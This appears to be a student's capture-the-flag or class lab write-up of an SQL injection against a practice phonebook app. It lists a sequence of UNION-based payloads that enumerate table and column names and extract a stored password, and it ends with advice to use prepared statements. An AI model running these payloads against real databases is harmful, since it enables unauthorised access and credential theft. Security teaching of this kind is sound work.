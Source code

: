 hackers
==============

Overview
--------
I was presented with a web page which was rendered by some application running on a server. The application is capable of filtering and presenting the name, surename, nickname and telephone number of people it had saved in some database.

Vulnerability
-------------
The application uses a the users partially sanitised input as a parameter for a condition in an sql select statement which was not built by using a prepared statement, but by plain string concatenation. This way I was able to insert strings which wuold be interpreted not only as a parameter but as part of the query to execute as well.

Exploitation
------------
At first I just tried to insert a few non alphabetical characters and fragments of sql queries to see where it takes me and how the application is behaving. I soon found that the application just throws back sql errors blindly and that I couldn't use `#` or `--` to comment out the rest of the applications statement because those were removed and a special error was thrown.  
Next I tried to end the statement and append a new one of my own which just lead to syntax errors. Instead of going down that road I remembered the usage of the `UNION` operator from todays class and went that way which went pretty smooth.  
After some trial and error I realised that the table and column names werer not in the form I expected so I researched a little about the schema of mysqls table metadata. The rest was just a question of getting those names and finding the right persons with the password needed.  
Here is a summary of the queries I executed successfully:  

    # The query string must look something like this
    SELECT name, surname, nick, telephone FROM users WHERE nick = ' + user_input + ' LIMIT 1

    ' OR '1'='1
    # time to inject

    ' UNION SELECT table_name, table_name, table_name, table_name FROM information_schema.tables WHERE table_schema = 'hackers
    # hackerztelbookz

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE table_name = 'hackerztelbookz
    # id

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id') AND table_name = 'hackerztelbookz
    # name

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id', 'name') AND table_name = 'hackerztelbookz
    # surname

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id', 'name', 'surname') AND table_name = 'hackerztelbookz
    # nick

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id', 'name', 'surname', 'nick') AND table_name = 'hackerztelbookz
    # telephone

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id', 'name', 'surname', 'nick', 'telephone') AND table_name = 'hackerztelbookz
    # 0 rows

    ' UNION SELECT table_name, table_name, table_name, table_name FROM information_schema.tables WHERE table_name NOT IN ('hackerztelbookz') AND table_schema = 'hackers
    # hackrzpasswdz

    ' UNION SELECT table_name, table_name, table_name, table_name FROM information_schema.tables WHERE table_name NOT IN ('hackerztelbookz', 'hackrzpasswdz') AND table_schema = 'hackers
    # 0 rows

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE table_name = 'hackrzpasswdz
    # id

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id') AND table_name = 'hackrzpasswdz
    # hacker_id

    ' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id', 'hacker_id') AND table_name = 'hackrzpasswdz
    # secretpaswd

    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Acid Burn
    # Acid Burn	6	nopenopenotthisone	nopenopenotthisone
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Phantom Phreak
    # Phantom Phreak	6	nopenopenotthisone	nopenopenotthisone
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Lord Nikon
    # Lord Nikon	6	nopenopenotthisone	nopenopenotthisone
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'The Plague
    # The Plague	6	nopenopenotthisone	nopenopenotthisone
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Zero Cool
    # Zero Cool	6	nopenopenotthisone	nopenopenotthisone
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Master of Disaster
    # Master of Disaster	6	nopenopenotthisone	nopenopenotthisone
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Cereal Killer
    # Cereal Killer 6   nopenopenotthisone  nopenopenotthisone

    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 0 AND '1'='1
    # returned 0 rows
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 1 AND '1'='1
    # returned 0 rows
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 2 AND '1'='1
    # returned 0 rows
    ' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 3 AND '1'='1
    # Acid Burn 3   bN10R4Ce3jbG7WSzulBJ    bN10R4Ce3jbG7WSzulBJ

Solution
--------
Using prepared statements instead of plain string concatenation would be advisable. Another improvement would be to match the user input against a regular expression which defines the allowed structure of the query parameter instead of black listing selectively.
